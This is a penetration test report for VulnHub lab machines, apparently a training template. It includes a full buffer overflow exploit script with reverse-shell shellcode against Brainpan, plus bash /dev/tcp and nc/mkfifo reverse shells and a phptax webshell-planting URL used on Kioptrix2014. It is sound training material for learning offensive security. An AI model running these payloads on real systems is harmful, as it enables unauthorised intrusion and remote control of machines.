# Example Report - Penetration Test Report for VulnHub Internal Labs

me@localhost

SOME-1D3NT1F13R

Today

# Outline
## Introduction

The Example Lab penetration test report contains all efforts that were conducted in order to pass The Example Lab. This report will be graded from a standpoint of correctness and fullness to all aspects of the Lab. The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as technical knowledge.

## Objective

The objective of this assessment is to perform an internal penetration test against the Example Lab network. The student is tasked with following a methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report. An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course. Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report fully and to include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable
- Any additional items that were not included

# High-Level Summary

The author of this report was tasked with performing an internal penetration test towards The Example Lab environment. An internal penetration test is a dedicated offensive simulation against internally connected systems. The focus of this test is to perform attacks, similar to those of a malicious hacker and attempt to infiltrate internal Lab systems – including but not limited to the internal domain. The overall objective was to evaluate the network, identify systems, and exploit vulnerabilities, ultimately reporting back findings.

During the assessment, several alarming vulnerabilities were identified on internal networks. When performing the attacks, the author was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations. During the tests, all systems were succesfully compromised, granting full control over every system in the network. These systems, as well as a brief description on how access was obtained, are listed in the section below.

## Overview of Compromised Machines

It should be noted that this section solely provides a high-level description of the vulnerability which was exploited to gain a foothold on the machine. For details on lateral movement and privilege escalation within each box, please refer to the details provided in the ‘exploitation details’ chapters.

- 10.0.0.138 (BrainPan) - Buffer Overflow
- 10.0.0.139 (Kioptrix2014) - Local File Inclusion and remote code execution
- 10.0.100.105 (Zico) - Default credentials and arbitrary file write
- 10.0.100.107 (LazyAdmin) - Misconfigured SMB share and weak credentials

## Recommendations

It is strongly recommended to patch the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. For each application, patching recommendations are provided.

One thing to note is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Methodologies

A widely adopted approach to performing penetration testing was utilized during the tests to test how well The Example Lab environments are secured.
Below, a breakdown of the applied methodology is provided. 

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test. During this penetration test, the objective was to exploit the exam network. One IP range is in scope:

- The 'internal' subnet: 10.0.0.0/16

As part of the Information Gathering phase, both passive and active scans were performed to gather information about open ports and running services.

## Penetration

The penetration testing portions of the assessment focus on gaining access to a variety of systems. During this penetration test, **4** out of **4** systems were succesfully and completely compromised. The next chapters provide an overview of the identified services and exploited vulnerabilities for every machine, as well as the proof keys for every compromised machine and recommendations for mitigating the identified vulnerabilities.

## Maintaining Access

Maintaining access to a system is important to attackers, ensuring that access to a system can be regained after it has been exploited is invaluable.
The 'maintaining access' phase of the penetration test focuses on ensuring that once the attack has been executed, an attacker can easily regain administrative access over the system. Additionally, certain exploits may only be executable once. As such, having a foothold into a system proves invaluable.

## Lateral Movement

As part of the engagement, exploitation in closed subnets was requested, requiring lateral movement from compromised hosts. Furthermore, lateral movement within subnets was realized through the use of known credentials from compromised hosts. Technical details on lateral movement are provided in the next chapter, and a full overview of compromised credentials is provided in the appendix.

## House Cleaning

The 'house cleaning' portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that no remnants of our penetration test are left over is important.

After all proof keys were collected from the lab networks, all user accounts, passwords, as well as the Meterpreter services installed on the system were removed. No additional cleanup should be required.

# Exploitation Details: Internal Subnet (10.0.0.0/16)

## System IP 10.0.0.138 (Brainpan)

### System overview

|                   |                 |
|-------------------|-----------------|
| IP Address        | 10.0.0.138      |
| Hostname          | Brainpan        |
| Exploitation Date | 04-05-2020      |
| Point Value       | N/A             |

### Exploitation Overview

To exploit Brainpan, a buffer overflow exploit was developed based on a binary that was disclosed via the web server. Once we successfully developed an exploit for the program on our test server, we succesfully use it to gain a shell on the target system. We break out of the virtual Windows environment and exploit a `sudo` binary to gain command execution as root.

### Service Enumeration

#### Portscan - TCP

```plaintext
PORT      STATE SERVICE REASON  VERSION                                                                             
9999/tcp  open  abyss?  syn-ack                                                                                     
| fingerprint-strings:                                                                                              
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    syn-ack SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data.
```

### Network interfaces

```plaintext
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN qlen 1000
    link/ether 00:0c:29:da:50:81 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.138/24 brd 10.0.0.255 scope global eth0
    inet6 fe80::20c:29ff:feda:5081/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN qlen 1000
    link/ether 00:0c:29:da:50:8b brd ff:ff:ff:ff:ff:ff
```

### Credentials

```plaintext
N/A
```

### Exploitation and proof

#### Initial access

##### Vulnerability exploitation

Nmap finds two non-default services. Port 9999 seems to be running a terminal application, but we need a password to access it.

```
# nc 10.0.0.138 9999
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> hello
                          ACCESS DENIED
```

Port 10000 is identified as `SimpleHTTPServer`, and browsing to it it seems to return a banner image on safe coding practices. Enumerating subfolders the webserver with `gobuster`, we find `/bin` which is listable and contains `brainpan.exe`. Let's analyze this application!

```
# gobuster dir -u http://10.0.0.138 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/bin (Status: 301)
```

We load the binary to our windows VM and start fuzzing it. We find that if we send 1000 "A" characters as our password, the application hangs. Inspecting it in our debugging application (Unity debugger) we find that we have overwritten the stack, including `EIP`!



```
msf-pattern_create -l 1000
```

We then send that string as our password, and see that the EIP is overwritten with the value `35724134`. We can now identify the offset as follows.

```
# msf-pattern_offset -l 1000 -q 35724134
[*] Exact match at offset 524
```

This would imply that we *exactly* overwrite `EIP` if we send 524 "A" characters and 4 "B" characters. Doing exactly that, we indeed manage to overwrite `EIP` with precision.



Now, we send an array of the binary characters ranging from `\x01` to `\xff` in our buffer, to identify bad characters. Inspecting the characters in our buffer, none seem to have disappeared or caused issues in the buffer. As such, our only bad character is `\x00`, which we already removed.

Now to generate a payload. For our test system, we generate the following payload. Note that once we deploy it on the target, we need to replace this payload with one generated with a different `LHOST` address.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.155 LPORT=443 EXITFUNC=thread -f py -b "\x00"
```

This results in a big payload, which we include in our script. We prepend several `\x90` (NOP) characters to ensure the payload is triggered correctly.

Finally, we have to find a `JMP ESP` or `CALL ESP` instruction to instruct the program to actually execute our payload. Using `msf-nasm_shell` to find the respective opcodes, we find that we can use `FFE4` or `FFD4`.

```
# msf-nasm_shell 
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > call esp
00000000  FFD4              call esp
```

We can find memory addresses with these instructions in our debugger, using the `mona.py` plugin. First, we run `!mona modules` to identify an unprotected module.


We find that we can use the binary itself (`brainpan.exe`), since it doesn't have any protections. Using this information, we run the following query to locate `jmp esp` instructions in memory!

```
!mona find -s '\xff\xe4' -m brainpan.exe
```

We find one address: `0x311712f3`. This doesn't contain any bad characters, so should be usable. We update our `EIP` overwrite in our script to the Little Endian notation of that address, which is `"\xf3\x12\x17\x31"`. We are now ready to try our exploit.

Running the exploit on our test machine, we get a shell back!



Perfect. Now we only have to re-generate our payload and replace our target IP address to weaponize the exploit.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.100.108 LPORT=443 EXITFUNC=thread -f py -b "\x00"
```

The final exploit code is as follows:

```python
#!/usr/bin/env python

import socket

target = "10.0.0.138"
port = 9999

# badchars: \x00

buf =  b""
buf += b"\xbf\xb0\x6b\xdc\x19\xdb\xd7\xd9\x74\x24\xf4\x5d\x29"
buf += b"\xc9\xb1\x52\x83\xc5\x04\x31\x7d\x0e\x03\xcd\x65\x3e"
buf += b"\xec\xd1\x92\x3c\x0f\x29\x63\x21\x99\xcc\x52\x61\xfd"
buf += b"\x85\xc5\x51\x75\xcb\xe9\x1a\xdb\xff\x7a\x6e\xf4\xf0"
buf += b"\xcb\xc5\x22\x3f\xcb\x76\x16\x5e\x4f\x85\x4b\x80\x6e"
buf += b"\x46\x9e\xc1\xb7\xbb\x53\x93\x60\xb7\xc6\x03\x04\x8d"
buf += b"\xda\xa8\x56\x03\x5b\x4d\x2e\x22\x4a\xc0\x24\x7d\x4c"
buf += b"\xe3\xe9\xf5\xc5\xfb\xee\x30\x9f\x70\xc4\xcf\x1e\x50"
buf += b"\x14\x2f\x8c\x9d\x98\xc2\xcc\xda\x1f\x3d\xbb\x12\x5c"
buf += b"\xc0\xbc\xe1\x1e\x1e\x48\xf1\xb9\xd5\xea\xdd\x38\x39"
buf += b"\x6c\x96\x37\xf6\xfa\xf0\x5b\x09\x2e\x8b\x60\x82\xd1"
buf += b"\x5b\xe1\xd0\xf5\x7f\xa9\x83\x94\x26\x17\x65\xa8\x38"
buf += b"\xf8\xda\x0c\x33\x15\x0e\x3d\x1e\x72\xe3\x0c\xa0\x82"
buf += b"\x6b\x06\xd3\xb0\x34\xbc\x7b\xf9\xbd\x1a\x7c\xfe\x97"
buf += b"\xdb\x12\x01\x18\x1c\x3b\xc6\x4c\x4c\x53\xef\xec\x07"
buf += b"\xa3\x10\x39\x87\xf3\xbe\x92\x68\xa3\x7e\x43\x01\xa9"
buf += b"\x70\xbc\x31\xd2\x5a\xd5\xd8\x29\x0d\xd0\x1c\x55\xa1"
buf += b"\x8c\x1e\x95\x38\xf6\x96\x73\x50\x18\xff\x2c\xcd\x81"
buf += b"\x5a\xa6\x6c\x4d\x71\xc3\xaf\xc5\x76\x34\x61\x2e\xf2"
buf += b"\x26\x16\xde\x49\x14\xb1\xe1\x67\x30\x5d\x73\xec\xc0"
buf += b"\x28\x68\xbb\x97\x7d\x5e\xb2\x7d\x90\xf9\x6c\x63\x69"
buf += b"\x9f\x57\x27\xb6\x5c\x59\xa6\x3b\xd8\x7d\xb8\x85\xe1"
buf += b"\x39\xec\x59\xb4\x97\x5a\x1c\x6e\x56\x34\xf6\xdd\x30"
buf += b"\xd0\x8f\x2d\x83\xa6\x8f\x7b\x75\x46\x21\xd2\xc0\x79"
buf += b"\x8e\xb2\xc4\x02\xf2\x22\x2a\xd9\xb6\x43\xc9\xcb\xc2"
buf += b"\xeb\x54\x9e\x6e\x76\x67\x75\xac\x8f\xe4\x7f\x4d\x74"
buf += b"\xf4\x0a\x48\x30\xb2\xe7\x20\x29\x57\x07\x96\x4a\x72"

buffer = "A" * 524
buffer += "\xf3\x12\x17\x31"
buffer += "\x90" * 32 + buf

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((target,port))
print (sock.recv(1024))
sock.send(buffer)
print (sock.recv(1024))
sock.close()
```

Running the exploit, we get a shell back as user Puck!

##### Severity

`High` - An attacker could identify and exploit this vulnerability to remotely gain code execution on the machine.

##### Remediation

- Patch the `brainpan.exe` binary to properly allocate buffer space and sanitize user inputs
- Limit network access to the machine

##### Proof



#### Privilege Escalation

##### Vulnerability exploitation

Oddly enough, our new shell seems to be on Linux filesystem looking at the directories in the root directory. This implies that the Windows binary we found was running via `wine` or a similar emulation environment



To prevent confusion and avoid limitations, we can turn this shell into a regular `sh` shell by spawning a new reverse shell with the regular Linux `sh` binary. For that we can run the following from our prompt

```
/bin/sh -i >& /dev/tcp/10.0.0.128/443 0>&1
```



On our new shell, we can gain a full TTY as follows.

```
/usr/bin/script -qc /bin/bash /dev/null
```

```
$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

That seems interesting! We cannot read the binary file to see what it does, so let's just run it.

```
$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Interesting, looks like we can run some commands as root using this utility. After some playing around, the `manual` command seems to be the most promising. Running this command opens the manpage of a certain command that we specify as root.

```
$ sudo /home/anansi/bin/anansi_util manual bash
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)
BASH(1)                                                                BASH(1)

NAME
       bash - GNU Bourne-Again SHell

SYNOPSIS
       bash [options] [file]

COPYRIGHT
       Bash is Copyright (C) 1989-2011 by the Free Software Foundation, Inc.

DESCRIPTION
       Bash  is  an  sh-compatible  command language interpreter that executes
       commands read from the standard input or from a file.  Bash also incor‐
       porates useful features from the Korn and C shells (ksh and csh).

       Bash  is  intended  to  be a conformant implementation of the Shell and
       Utilities portion  of  the  IEEE  POSIX  specification  (IEEE  Standard
       1003.1).  Bash can be configured to be POSIX-conformant by default.

OPTIONS
       All  of  the  single-character shell options documented in the descrip‐
       tion of the set builtin command can be used as options when  the  shell
 Manual page bash(1) line 1 (press h for help or q to quit)
```

This isn't too interesting on itself, but we are dropped into an interactive `less`-like prompt since the content doesn't fit on the screen. As listed [here](https://gtfobins.github.io/gtfobins/man/#sudo), we can run system commands by prepending `!`, giving us command execution as root!

Running `!bash` at the manpage prompt drops us into a root shell, giving us full access over the system.

##### Severity

`High` - Any user with sudo permissions on the `anansi_util` binary may escalate their privileges to gain full control of the system.

##### Remediation

- Restrict `sudo` access on a least-privilege basis
- Remove or restrict the `manual` functionality within the `anansi_util` binary

##### Proof



## System IP 10.0.0.139 (Kioptrix2014)

### System overview

|                   |                 |
|-------------------|-----------------|
| IP Address        | 10.0.0.139      |
| Hostname          | Kioptrix2014    |
| Exploitation Date | 04-05-2020      |
| Point Value       | N/A             |

### Exploitation Overview

This machine required several steps to exploit. First, we identify a Local File Inclusion vulnerability in the `pChart` system on the web server. We use this to read the apache configuration files and identify user-agent based filtering for the web server on port 8080. Once there, we identify the `phptax` application which we can use to gain command execution as user `www`. Since the machine is running FreeBSD version 9, we utilize a kernel exploit to escalate our privileges to root.

### Service Enumeration

#### Portscan - TCP

```plaintext
# Nmap 7.80 scan initiated Mon May  4 11:00:08 2020 as: nmap -sV -sC -p- -v -o nmapfull.out 10.0.0.139
Nmap scan report for 10.0.0.139
Host is up (0.00047s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: HEAD
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:FE:67:D7 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  4 11:02:18 2020 -- 1 IP address (1 host up) scanned in 129.88 seconds
```

### Network interfaces

```plaintext
em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
        options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
        ether 00:0c:29:fe:67:d7
        inet 10.0.0.139 netmask 0xffffff00 broadcast 10.0.0.255
        nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
        media: Ethernet autoselect (1000baseT <full-duplex>)
        status: active
plip0: flags=8810<POINTOPOINT,SIMPLEX,MULTICAST> metric 0 mtu 1500
        nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> metric 0 mtu 16384
        options=3<RXCSUM,TXCSUM>
        inet6 ::1 prefixlen 128 
        inet6 fe80::1%lo0 prefixlen 64 scopeid 0x3 
        inet 127.0.0.1 netmask 0xff000000 
        nd6 options=21<PERFORMNUD,AUTO_LINKLOCAL>
ipfw0: flags=8801<UP,SIMPLEX,MULTICAST> metric 0 mtu 65536 
        nd6 options=21<PERFORMNUD,AUTO_LINKLOCAL>
```

### Credentials

```plaintext
N/A
```

### Exploitation and proof

#### Initial access

##### Vulnerability exploitation

Nmap finds two ports open, 80 and 8080. Port 8080 seems to reject all of our requests with an 403 error, and port 80 just returns "It works!". However, by inspecting the source, code, we see a reference to `/pChart2.1.3/index.php`.



Visiting that page, we get to see the pChart system v2.1.3 without authentication. This version seems to be vulnerable to XSS and Path Traversal, as outlined [here](https://www.exploit-db.com/exploits/31173). Testing out the vulnerabilities for ourselves we can indeed read arbitrary files through the path traversal. For example, we can read `/etc/passwd`.



The passwd file also lists we are dealing with FreeBSD 9, which is interesting since this affects the paths we are dealing with. We can find the HTTP access log here, for example.

```
http://10.0.0.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fvar/log/httpd-access.log
```

Unfortunately, any PHP that we inject through user agent poisoning doesn't seem to be executed and is reflected back to us. Looks like we'll have to find another way in. Enumerating more files, we find the apache configuration.

```
http://10.0.0.139/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```

Near the bottom, it contains some interesting information about the vhost on port `8080`:

```
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>

</VirtualHost>
```

In short, it sets an environment variable if our user agent begins with "Mozilla/4.0", and only allows us access if the environment variable is set. AKA, we should be able to bypass the 403 errors on that port if we spoof our user agent! Using the BurpSuite proxy, we can easily spoof our user agent by using the "Match and Replace" feature.



We can now access the web port 8080, and find a reference to `phptax`. Clicking the link, we access probably the most interesting system since the start of humanity...



There's several remote code execution vulnerabilities disclosed for this system, but most don't seem too reliable. We finally end up with [this exploit disclosure](https://www.exploit-db.com/exploits/25849), which simply seems to make one web request to place a PHP backdoor. The exploit itself is slightly unreliable, but we can easily extract and recreate the web request to place the webshell.

```
http://10.0.0.139:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
```

We can access the webshell at `/phptax/data/rce.php` and inject commands with the `?cmd=` parameter.



Nice! We now have reliable code execution. We can spawn reverse shell by utilizing the netcat binary as follows: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.128 443 >/tmp/f`. To prevent certain characters from messing up the exploit, we URL-encode the whole payload and visit the following URL to trigger it.

```
http://10.0.0.139:8080/phptax/data/rce.php?cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%30%2e%30%2e%31%32%38%20%34%34%33%20%3e%2f%74%6d%70%2f%66
```

Nice, we now have a stable shell as `www`!



##### Severity

`High` - Any user with access to the network this machine is on may be able to read sensitive information and/or remotely exploit the machine.

##### Remediation

- Don't rely on user-agents as a security measure.
- Discontinue or update the `pChart` application.
- Discontinue or update the `phptax` application.

##### Proof

#### Privilege Escalation

##### Vulnerability exploitation

A user `www`, we don't seem to find much that is usable for privilege escalation. Since the system is quite old, let's look for kernel exploits.

```
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012 root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

Looking for exploits for FreeBSD 9, we stumble upon [this exploit](https://www.exploit-db.com/exploits/28718) which seems interesting and relevant for our version. Let's try it out! We grab the source code, transfer it to the target system using `nc`, and compile it using `gcc` on the target (to avoid compiling issues). Running the binary, it drops us into a root shell! Awesome!

##### Severity

`Critical` - Any user on the machine may execute this or similar exploits to gain full control over the machine.

##### Remediation

Patch the operating system to the latest - or at least a more recent - version of FreeBSD.

##### Proof

